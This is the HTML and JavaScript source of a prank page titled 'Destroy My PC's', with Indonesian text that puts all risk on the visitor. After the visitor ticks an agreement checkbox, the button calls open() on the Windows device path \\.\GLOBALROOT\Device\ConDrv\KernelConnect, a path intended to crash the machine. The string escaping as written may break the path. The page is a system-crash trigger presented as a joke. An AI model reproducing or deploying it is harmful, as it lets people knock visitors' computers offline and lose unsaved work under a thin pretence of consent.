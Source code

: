 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <style>
        .container{
            margin-top: auto;
            margin-bottom: auto;
            padding-top: 15%;
            font-family: 'Gill Sans', 'Gill Sans MT', Calibri, 'Trebuchet MS', sans-serif
        }
        button{
            background-color: whitesmoke;
            color: silver;
            border: 1px solid tomato;
            border-radius: 5px;
            font-size: 20px;
            padding: 20px;
            transition: all ease 0s;
        }
        button:hover{
            background-color: tomato;
            color: whitesmoke;
            border: 1px solid whitesmoke;
            font-size: 20px;
            padding: 20px;
            cursor: pointer;
        }
        input,h6,span{
            background-color: hotpink;
            color: whitesmoke;
            border: 2px solid silver;
            padding: 20px;
            border-radius: 5px;
            margin: 30px;
        }
        h1{
            border: 2px solid hotpink;
            margin-top: 10%;
            margin-left: auto;
            margin-right: auto;
            color: hotpink;
            font-weight: 900;;
        }
        p{
            background-color: tomato;
            color: whitesmoke;
            border: 2px solid silver;
            border-radius: 5px;
            padding: 5px;
            font-size: 15px;
        }
    </style>
    <title>Destroy My PC's</title>
</head>
<body>
    <center>
            <h1>vStralpt</h1>
            <p><marquee behavior="" direction="up">Awokawok</marquee><marquee behavior="" direction="right">Apapun Yang Terjadi Dengan PC Anda Adalah Tanggung Jawab Anda</marquee><marquee behavior="" direction="down">Awokawok</marquee></p>
        <div class="container">
            <input onclick=iAgree(); type="checkbox" name="agree" id="agree"><span name="agree">Saya Setuju Dengan Segala Resiko Untuk PC Saya</span>
            <button onclick="aWarning()">Don't Click Me xD</button>
        </div>
    </center>
</body>
<script>
    var startDestroy = function(){
        // alert("Location: awokawok.com");
        // open("\\.\awokowka");
        open("\\.\GLOBALROOT\Device\ConDrv\KernelConnect");
    }
    var aWarning = function(){
        // return aWarn="Please Check The Plicy Button";
        alert("Please Check The Plicy Button");
    }
    var iAgree = function(){
        const btn =document.querySelector("button");
        const checkBoxs =document.querySelector("input");
        btn.setAttribute("onclick","startDestroy()");
        checkBoxs.setAttribute("onclick","iDisagree()");
    }
    var iDisagree = function(){
        const btn =document.querySelector("button");
        btn.setAttribute("onclick","aWarning()");
        // btn.removeAttribute("onclick");
        const checkBoxs =document.querySelector("input");
        checkBoxs.setAttribute("onclick","iAgree()");
    }
</script>
</html>
